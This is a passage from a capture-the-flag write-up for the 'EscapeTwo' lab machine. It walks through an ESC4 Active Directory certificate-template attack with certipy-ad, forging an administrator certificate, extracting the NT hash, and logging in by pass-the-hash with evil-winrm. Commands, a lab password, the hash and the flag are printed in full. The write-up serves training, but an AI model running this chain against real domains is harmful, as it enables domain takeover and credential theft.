#### ESC4: Vulnerable Certificate Template Access Control

We first saved the present template for an potential rollback of the changes we planned to perform in order to exploit the vulnerability.

```c
┌──(kali㉿kali)-[~]
└─$ certipy-ad template -username ca_svc@sequel.htb -password WqSZAF6CysDQbGb3 -template DunderMifflinAuthentication -save-old
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

Then we added the `certificate authority` to our `/etc/hosts` file to start with the `exploitation process`.

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.91.215   sequel.htb
10.129.91.215   dc01.sequel.htb
10.129.91.215   sequel-DC01-CA
```

We modified the template in order to grab a `.pfx` file for the user `administrator`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/EscapeTwo/files]
└─$ certipy-ad req -ca 'sequel-DC01-CA' -dc-ip 10.129.91.215 -u ca_svc -p 'WqSZAF6CysDQbGb3' -template DunderMifflinAuthentication -target DC01.sequel.htb -upn administrator@sequel.htb -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'DC01.sequel.htb' at '10.129.91.215'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.129.91.215[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.91.215[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 14
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Which then allowed us to `authenticate` as `administrator` and retrieve the `hash`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/EscapeTwo/files]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.91.215
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

Using `Pass-the-Hash` allowed us to login as `administrator` on the box and to grab the `root.txt`.

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.91.215 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff                   
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## root.txt

```c
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
936abf72764fe36e7ef2da150385e907
```
